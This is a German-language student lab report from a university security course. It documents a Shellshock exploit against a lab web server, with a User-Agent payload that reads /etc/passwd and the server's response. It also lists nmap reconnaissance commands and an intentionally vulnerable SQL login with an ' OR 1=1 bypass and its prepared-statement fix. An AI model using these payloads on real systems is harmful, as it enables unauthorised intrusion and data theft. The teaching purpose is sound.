%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% http://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\parindent0pt  % Verhindert einrücken

% Group number or "0" for Lab0
%TODO group number
\newcommand{\gruppe}{17}
% Date
%TODO fill in creation date
\newcommand{\datum}{15.05.2015}
%TODO lab number
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

%TODO name of course
\newcommand{\lvaname}{Security for Systems Engineering}
%TODO number of course
\newcommand{\lvanr}{183.637}
%TODO year and term, for example: "SS 2012", "WS 2012", "SS 2013", etc.
\newcommand{\semester}{SS 2015}

% Student data in Lab0 or 1. student of group in Lab1
\newcommand{\studentAName}{Brichta Roy}
\renewcommand{\studentAMatrnr}{0627867}

% 2. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentBName}{Neumeyer Markus}
\renewcommand{\studentBMatrnr}{1225172}

% 3. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentCName}{Gubic Matthias }
\renewcommand{\studentCMatrnr}{1226342}

% 4. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentDName}{Grosslicht Patrick}
\renewcommand{\studentDMatrnr}{1227085}

% 5. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentEName}{Gall Alexander}
\renewcommand{\studentEMatrnr}{1225540}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\lang}{de}
\newcommand{\colormode}{color}
\newcommand{\dokumenttyp}{Abgabedokument \lab}

\begin{document}

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Aufgabe - Lab1a}

\subsection{Aufgabenstellung}
\emph{Sie sind ein neuer motivierter Mitarbeiter/eine neue motivierte Mitarbeiterin in einem IT-Unternehmen. An Ihrem ersten Tag erhalten Sie Zugangsdaten und die URL zu einer Webseite in diesem Unternehmen. Nach kurzer Analyse erkennen Sie, dass die Webseite anfällig für einen erst im letzten Jahr bekannt gewordenen Fehler ist. \\Als Security-Experte/Security-Expertin wurde Ihr Interesse geweckt und Sie wollen gleich einmal einen guten Eindruck bei Ihrem Chef hinterlassen.\\\\
Sie versuchen diese Schwachstelle auszunützen, um sich Zugang zum Server und in weiterer Folge zum Firmennetzwerk zu verschaffen.}

Als erstes mussten wir uns mit den Server verbinden. Dafür wurde ein ssh Tunnel mit \textit{putty} aufgebaut.
Es musste dafür die Verbindung zum Übungsserver eingerichtet werden (\hyperref[fig:logo1]{siehe Abbildung~\ref*{fig:logo1}}) und unter dem Punkt \textit{Connection} $\rightarrow$ \textit{SSH} konnten die Parameter für das Tunneln festgelegt werden. (\hyperref[fig:logo2]{siehe Abbildung~\ref*{fig:logo2} auf Seite~\pageref*{fig:logo2}})

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.6\textwidth]{./imgs/putty_ssh.jpg}
  }
  \caption{SSH-Verbindung}
  \label{fig:logo1}
\end{figure}

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.6\textwidth]{./imgs/putty_tunnel.jpg}
  }
  \caption{Einstellung für Tunnel in putty}
  \label{fig:logo2}
\end{figure}

Nach dem Einloggen auf der Übungsumgebung konnte nun über den Browser eine Verbindung zu dem Webservice auf $$http://10.10.20.100:8817$$ erfolgen.\\ Dafür musste nur einige Browsereinstellungen vorgenommen werden (Manuelle Proxy Einstellung). Hier musste man sich mit den Zugangsdaten der Gruppe, welche im Homeverzeichnis auf der tese in einer Datei gespeichert sind, anmelden.
Nach erfolgreicher Anmeldung hatte wir Zugriff auf die Homepage (\hyperref[fig:logo3]{siehe Abbildung~\ref*{fig:logo3} auf Seite~\pageref*{fig:logo3}}). Nun begannen wir mit der Suche nach einer Schwachstelle, um  vollständige Kontrolle über den Benutzer auf diesen Webservice zu erlangen.

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.9\textwidth]{./imgs/Homepage.jpg}
  }
  \caption{Homepage}
  \label{fig:logo3}
\end{figure}

Auf der Seite unter dem Punkt "Result" fanden wir eine Funktion welche ein bash-Skript ausführt. Nach kurzen Überlegungen kamen wir auf die Idee das, dass CGI shellshock vulnerable ist (\hyperref[fig:logo4]{siehe Abbildung~\ref*{fig:logo4} auf Seite~\pageref*{fig:logo4}}).
Shellshock ist ein Exploit der Unix-Shell Bash bei welcher ungeprüfte Variablen vom Programmcode ausgeführt werden.\\Um diese Schwachstelle auszunutzen verwendeten wir das Programm \textit{Burp Suite} mit welchen wir die HTTP-Request verändern konnten.

Es musste das Programm nur als HTTP-Proxy eingerichtet werden um den gesamten HTTP-traffic vom Browser auf Burp Suite umzuleiten.
Danach musste nur noch der eintreffende HTTP-Request im Programm an den Repeater geschickt werden. Der Burp-Repeater ist ein einfaches Werkzeug für die manuelle Manipulation und Bearbeitung einzelner HTTP-Anfragen sowie zur Analyse der Antworten.

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=1.05\textwidth]{./imgs/homepage_script.jpg}
  }
  \caption{Schwachstelle des Webservices}
  \label{fig:logo4}
\end{figure}

Durch die Eingabe von: 
\begin{lstlisting}[caption=Exploit script,style=simple]
() { :;};echo; /bin/cat /etc/passwd
\end{lstlisting} in die Zeile User-Agent konnte der Exploit ausgeführt werden.  

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.9\textwidth]{./imgs/burpSuit_exploit.jpg}
  }
  \caption{Schwachstelle des Webservices}
  \label{fig:logo5}
\end{figure}

Response des Servers:

\begin{lstlisting}[caption=Response des Servers nach Exploit,style=simple]
HTTP/1.1 200 OK
Date: Fri, 15 May 2015 11:34:27 GMT
Server: Apache/2.2.22 (Debian)
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 2578

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
messagebus:x:102:104::/var/run/dbus:/bin/false
user01:x:1001:1001::/home/user01:/bin/bash
user02:x:1002:1002::/home/user02:/bin/bash
user03:x:1003:1003::/home/user03:/bin/bash
user04:x:1004:1004::/home/user04:/bin/bash
user05:x:1005:1005::/home/user05:/bin/bash
user06:x:1006:1006::/home/user06:/bin/bash
user07:x:1007:1007::/home/user07:/bin/bash
user08:x:1008:1008::/home/user08:/bin/bash
user09:x:1009:1009::/home/user09:/bin/bash
user10:x:1010:1010::/home/user10:/bin/bash
user11:x:1011:1011::/home/user11:/bin/bash
user12:x:1012:1012::/home/user12:/bin/bash
user13:x:1013:1013::/home/user13:/bin/bash
user14:x:1014:1014::/home/user14:/bin/bash
user15:x:1015:1015::/home/user15:/bin/bash
user16:x:1016:1016::/home/user16:/bin/bash
user17:x:1017:1017::/home/user17:/bin/bash
user18:x:1018:1018::/home/user18:/bin/bash
user19:x:1019:1019::/home/user19:/bin/bash
user20:x:1020:1020::/home/user20:/bin/bash
user21:x:1021:1021::/home/user21:/bin/bash
user22:x:1022:1022::/home/user22:/bin/bash
user23:x:1023:1023::/home/user23:/bin/bash
user24:x:1024:1024::/home/user24:/bin/bash
user25:x:1025:1025::/home/user25:/bin/bash
user26:x:1026:1026::/home/user26:/bin/bash
user27:x:1027:1027::/home/user27:/bin/bash
user28:x:1028:1028::/home/user28:/bin/bash
user29:x:1029:1029::/home/user29:/bin/bash
user30:x:1030:1030::/home/user30:/bin/bash
user31:x:1031:1031::/home/user31:/bin/bash
user32:x:1032:1032::/home/user32:/bin/bash
user33:x:1033:1033::/home/user33:/bin/bash
user34:x:1034:1034::/home/user34:/bin/bash
user35:x:1035:1035::/home/user35:/bin/bash
user36:x:1036:1036::/home/user36:/bin/bash
user37:x:1037:1037::/home/user37:/bin/bash
user38:x:1038:1038::/home/user38:/bin/bash
user39:x:1039:1039::/home/user39:/bin/bash
user40:x:1040:1040::/home/user40:/bin/bash
\end{lstlisting}

\section{Aufgabe - Lab1b}

\subsection{Aufgabenstellung}
\emph{Nachdem Sie Lab1a erfolgreich absolviert haben, haben Sie nun auch Zugriff als Benutzer userXX auf den Host 10.10.20.100.\\
Dieser hat die erforderlichen Rechte, um auf das gesamte Firmennetzwerk zuzugreifen. Scannen und analysieren Sie die anhängenden Netzwerke mit den verfügbaren Tools (ping, nmap, traceroute, netcat, dig, etc.).}

Zuerst sind wir wie Lab1a vorgegangen und haben die gefundene Schnittstelle verwendet, um Befehle für Lab1b auszuführen. Die einzelnen Hosts, IPs, Betriebssysteme, uvm. haben wir mit den folgenden Befehlen ausfindig gemacht:

\begin{itemize}
\item IPv6: host -t AAAA <hostname>
\item IPv4: /sbin/ip addr
\item IPs, services: nmap 10.10.20.0/24 oder nmap 192.168.98.0/24
\item Interfaces: nmap --iflist
\item DNS Server: cat /etc/resolv.conf
\item OS: cat /proc/version
\item OS: nmap -6 -A <IPv6>
\item Mac Adressen: ip neighbor show oder ip neighbor show <IP>
\end{itemize} 

Bestimmen Sie:
\begin{itemize}
\item IPv4- und IPv6-Adressen der gefundenen Systeme
\item MAC-Adressen der gefundenen Systeme, falls möglich
\item DNS-Hostnamen der gefundenen Systeme
\item Offene Ports und Services der einzelnen Systeme
\item Installierte Betriebssysteme (Begründen Sie das Betriebssystem auch aufgrund der installierten Dienste, nicht nur aufgrund der Schätzung von nmap)
\item Vermutete Funktionalität der Systeme (z.B. interner Mailserver, öffentlicher Webserver, etc.)
Für alle oben angeführten Punkte haben wir ein Excel File erstellt, das die Anforderungen abdeckt:

\newpage
\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.6\textwidth]{./imgs/Netzwerkhosts1.jpg}
  }
  \caption{Netzwerkhosts Teil 1}
  \label{fig:logo11}
\end{figure}

\newpage
\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.6\textwidth]{./imgs/Netzwerkhosts2.jpg}
  }
  \caption{Netzwerkhosts Teil 2}
  \label{fig:logo12}
\end{figure}
  
\newpage

\item Netzwerktopologie/Netzwerkplan: Stellen Sie Ihre Ergebnisse grafisch dar.
\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.9\textwidth]{./imgs/Netzwerktopologie.jpg}
  }
  \caption{Netzwerktopologie des analysierten Netzwerks}
  \label{fig:logo10}
\end{figure}

\end{itemize}

\section{Aufgabe - Lab1c}

\subsection{Aufgabenstellung}
\emph{Jedes Gruppenmitglied muss genau eine Schwachstelle aus der \href{https://www.owasp.org/index.php/Top_10_2013-Top_10}{OWASP Top 10 (2013)} Liste implementieren.\\ Innerhalb der Gruppe müssen unterschiedliche Schwachstellen aus der Liste implementiert werden, idente Schwachstellen werden nicht gewertet.}

\subsection{APP 0}
\textbf{{\large Schwachstelle:} SQL Injection }\\
\emph{Autor: Neumeyer Markus\\Matrikelnummer: 1225172}

Die hier implementierte Schwachstelle lässt sich mit einer SQL-Injection-Attacke ausnutzen.
SQL-Injection, oder generell Code-Injection, ist die am häufgsten verwendete und auch am
häufigsten erfolgreiche Angriffsart (laut OWASP).

Bei Code-Injections wird an beliebigen Stellen einer Applikation ein Code, anstatt der
erwarteten "normalen" Eingabe, übermittelt. Wird diese Eingabe einfach direkt in den 
weiteren Code eingefügt, so kann sie dort den Ablauf des Programmes auf viele Arten
verändern.

Der Fehler im Sourcecode der "vuln"-Version befindet sich in der einzigen Klasse
(DBConnector.java) in Zeile 57. Hier werden die beiden Eingaben des Benutzers, also
Benutzername und Passwort, direkt in ein SQL-Statement übertragen.

Um diesen Fehler zu beheben, könnte man verschiedene Strategien wählen:
1.) "Blacklisting"
	Man könnte diverse Zeichen, welche nötig sind, um den Kontrollfluss zu
	beeinflussen, verbieten. Wie z.B.: " ' ; -- oder ähnliche.
2.) Prepared Statements
	Man könnte Prepared Statements verwenden, um eine Abwandlung der gewünschten
	SQL-Abfrage zu unterbinden.

Um die von mir implementierte Schwachstelle ausnutzen zu können, muss man schlicht als
Username zu Beginn ein einfaches Hochkommer setzen, um anschließend beliebigen Code
ausführen zu können.
Beispielsweise kann man sich regulär nur mit dem Namen "hugo" und dem Passwort "pw123"
einloggen, allerdings kann man als Name auch " ' OR 1=1;-- " eingeben und das Passwort
beliebig wählen.

In meinem korrigiertem Programm, habe ich ein Prepared Statement verwendet. Dieses
verhindert unter anderem einen Vorzeitigen Abbruch des gewünschten SQL-Statements,
weshalb man kein weiteres Statement einfügen kann.

Aktuelle SQL-Injection:
In letzter Zeit besonders bekannt wurde die SQL-Injection auf die Sony-Kundendaten
von Ende 2014. Das Sony-Netzwerk, welchem Benutzer einer Playstation, welche auch online
spielen möchten, verpflichtend beitreten müssen, umfasst eine große Menge an teils
auch sensiblen Kundendaten.
Man konnte auf der Kundensupport-Webseite von Sony einen Parameter in einer URL abändern,
und somit direkt auf die SQL-Datenbank von Sony zugreifen. Die Ergebnisse der Abfrage
wurden praktischerweise auch direkt im Browser angezeigt.
Die Auswirkungen dieser Schwachstelle waren vor allem der freie Zugriff auf die Daten
der Kunden, wie Benutzernamen, Passwörter, Sicherheitsfragen zum Zurücksetzen der 
Passwörter und vieles mehr.
